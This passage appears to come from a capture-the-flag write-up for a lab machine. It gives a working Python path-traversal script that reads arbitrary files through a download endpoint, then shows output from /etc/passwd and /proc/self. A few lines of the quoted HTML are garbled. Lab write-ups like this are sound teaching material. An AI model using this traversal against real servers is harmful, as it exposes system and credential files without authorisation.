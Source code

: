    import requests
    import sys
    import zipfile
    from io import BytesIO

    if len(sys.argv) < 2:
        print(f"usage: {sys.argv[0]} [full path of file]")
        sys.exit()

    fpath = sys.argv[1]
    outfile = sys.argv[2] if len(sys.argv) > 2 else None

    resp = requests.get(f'http://snoopy.htb/download?file=....//....//....//....//....//{fpath}')

    if len(resp.content) == 0:
        print(f"File not found: {fpath}")
        sys.exit()

    with zipfile.ZipFile(BytesIO(resp.content)) as zip_file:
        file_path_in_zip = zip_file.namelist()[0]
        with zip_file.open(file_path_in_zip) as file:
            contents = file.read()

    if outfile:
        with open(outfile, 'wb') as f:
            f.write(contents)
        print(f"Results written to {outfile}")
    else:
        print(contents.decode())



#### General Filesystem Enumeration

According to the `passwd` file, the box has six users with shells set:



    oxdf@hacky$ python read_file.py /etc/passwd | grep sh$
    root:x:0:0:root:/root:/bin/bash
    cbrown:x:1000:1000:Charlie Brown:/home/cbrown:/bin/bash
    sbrown:x:1001:1001:Sally Brown:/home/sbrown:/bin/bash
    lpelt:x:1003:1004::/home/lpelt:/bin/bash
    cschultz:x:1004:1005:Charles Schultz:/home/cschultz:/bin/bash
    vgray:x:1005:1006:Violet Gray:/home/vgray:/bin/bash



The website can be accessed with `/proc/self`:



    oxdf@hacky$ python read_file.py /proc/self/cwd/index.md
    <!DOCTYPE.md>
    .md>

    <head>
      <meta charset="utf-8">
      <meta content="width=device-width, initial-scale=1.0" name="viewport">
      ...[snip]...
